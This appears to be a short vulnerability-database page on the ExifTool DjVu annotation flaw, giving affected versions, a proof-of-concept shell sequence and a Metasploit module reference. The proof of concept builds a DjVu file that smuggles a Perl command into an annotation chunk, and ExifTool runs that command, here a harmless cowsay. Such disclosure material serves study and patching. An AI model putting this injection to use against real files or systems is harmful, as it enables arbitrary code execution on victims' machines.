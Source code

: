 <languages />

Տուժած տարբերակ
---------------

ExifTool 7.44 to 12.23

POC
---

      $ printf 'P1 1 1 0' > moo.pbm
       $ cjb2 moo.pbm moo.djvu
       $ printf 'ANTa\0\0\0\40"(xmp(\\\n".qx(cowsay pwned>&2);#"' >> moo.djvu
       $ exiftool moo.djvu > /dev/null
        _______
       < pwned >
        -------
               \   ^__^
                \  (oo)_______
                   (__)\       )\/\
                       ||----w |
                       ||     ||

    --
    Jakub Wilk

Metasploit
----------

<https://github.com/rapid7/metasploit-framework/pull/15185>

    exploit/unix/fileformat/exiftool_djvu_ant_perl_injection